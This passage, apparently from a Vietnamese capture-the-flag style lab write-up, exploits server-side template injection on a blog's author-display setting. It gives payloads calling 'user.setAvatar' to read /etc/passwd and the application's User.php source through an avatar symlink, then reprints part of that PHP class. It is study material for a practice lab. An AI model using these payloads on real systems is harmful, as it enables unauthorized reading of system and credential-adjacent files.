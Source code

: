 >Màn hình hiển thị **49** . Như vậy ta có thể thực hiện SSTI tại chức năng này!

>Mặt khác, ở chức năng upload avatar, khi upload sai định dạng yêu cầu, một error được trả về từ User class tại `/home/carlos/User.php`. Và server sẽ gọi `User->setAvatar('/tmp/filename', 'MIME_TYPE')` để set avatar cho user: 
>![image](https://hackmd.io/_uploads/S1EiwIKLA.png)

>Ta sẽ tận dụng lỗi SSTI ở trên để gọi hàm `User.setAvatar()` với file bất kì rồi xem avatar để lấy được nội dung file đó. Thử payload sau để set avatar là nội dung file `/etc/passwd`:
>`blog-post-author-display=user.setAvatar('/etc/passwd')`

>Vẫn bị lỗi,  ta cần thêm 1 tham số **MIME_TYPE**: 
>![image](https://hackmd.io/_uploads/Hy0vOUFL0.png)

>Và vì avatar yêu cầu file ảnh, nên ta truyền thêm `image/jpeg`.
`blog-post-author-display=user.setAvatar('/etc/passwd','image/jpeg')`

>Truy cập 1 bài post xem avatar, ta thấy nội dung file `/etc/passwd` đã được trả về:
>![image](https://hackmd.io/_uploads/HkWqpLYLA.png)
>Tương tự để xem nội dung class **User**:
`blog-post-author-display=user.setAvatar('/home/carlos/User.php','image/jpeg')`
![image](https://hackmd.io/_uploads/BySyRIFUC.png)

>Source code: 
```
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
```